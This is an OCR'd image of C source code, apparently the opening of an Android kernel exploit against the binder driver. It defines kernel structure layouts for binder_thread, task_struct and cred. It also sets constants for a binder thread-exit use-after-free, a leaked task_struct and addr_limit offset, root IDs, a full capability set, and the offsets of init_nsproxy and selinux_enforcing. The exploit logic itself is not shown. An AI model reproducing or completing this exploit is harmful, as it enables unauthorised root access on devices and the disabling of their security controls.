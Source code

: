 ```
#include <sys/socket.h>
#include <sys/un.h>
#include <errno.h>

struct binder_thread {
    uint8_t junk1[160];         /*    0    0xa0 */
    uint8_t wait[24];           /* 0xa0    0x18 */
    uint8_t junk2[224];         /* 0xb8    0xe0 */
} __attribute__((packed));      /* size:  0x198 */


struct task_struct {
    uint8_t junk1[1256];        /*     0  0x4e8 */
    pid_t pid;                  /* 0x4e8    0x4 */
    uint8_t junk2[412];         /* 0x4ec  0x19c */
    uint64_t cred;              /* 0x688    0x8 */
    uint8_t junk3[48];          /* 0x690   0x30 */
    uint64_t nsproxy;           /* 0x6c0    0x8 */
    uint8_t junk4[1944];        /* 0x6c8  0x798 */
} __attribute__((packed));      /* size:  0xe60 */


struct cred {
    int32_t usage;              /*    0    0x4 */
    uint32_t uid;               /*  0x4    0x4 */
    uint32_t gid;               /*  0x8    0x4 */
    uint32_t suid;              /*  0xc    0x4 */
    uint32_t sgid;              /* 0x10    0x4 */
    uint32_t euid;              /* 0x14    0x4 */
    uint32_t egid;              /* 0x18    0x4 */
    uint32_t fsuid;             /* 0x1c    0x4 */
    uint32_t fsgid;             /* 0x20    0x4 */
    uint32_t securebits;        /* 0x24    0x4 */
    uint64_t cap_inheritable;   /* 0x28    0x8 */
    uint64_t cap_permitted;     /* 0x30    0x8 */
    uint64_t cap_effective;     /* 0x38    0x8 */
    uint64_t cap_bset;          /* 0x40    0x8 */
    uint64_t cap_ambient;       /* 0x48    0x8 */
    uint8_t junk2[40];          /* 0x50   0x28 */
    void *security;             /* 0x78    0x8 */
    uint8_t junk3[40];          /* 0x80   0x28 */
} __attribute__((packed));      /* size:  0xA8 */

#define PAGE_SIZE 0x1000
#define BINDER_THREAD_SZ 0x190
#define WAITQUEUE_OFFSET 0xA0
#define IOVEC_WQ_INDEX (0xa0 / 16)
#define IOVEC_COUNT (BINDER_THREAD_SZ/16)
#define BINDER_THREAD_EXIT 0x40046208ul
#define TASK_STRUCT_OFFSET_IN_LEAKED_DATA 0xE8
#define OFFSET_TASK_STRUCT_ADDR_LIMIT 0xA18
#define GLOBAL_ROOT_UID     (uint32_t)0
#define GLOBAL_ROOT_GID     (uint32_t)0
#define SECUREBITS_DEFAULT  (uint32_t)0x00000000
#define CAP_EMPTY_SET       (uint64_t)0
#define CAP_FULL_SET        (uint64_t)0x3FFFFFFFFF
#define SYMBOL_OFFSET_init_nsproxy      (ptrdiff_t)0x1233ac0
#define SYMBOL_OFFSET_selinux_enforcing (ptrdiff_t)0x14acfe8

int m_binder_fd = 0;
int m_epoll_fd = 0;
void *m_4gb_aligned_page;
struct epoll_event m_epoll_event = {.events = EPOLLIN};
```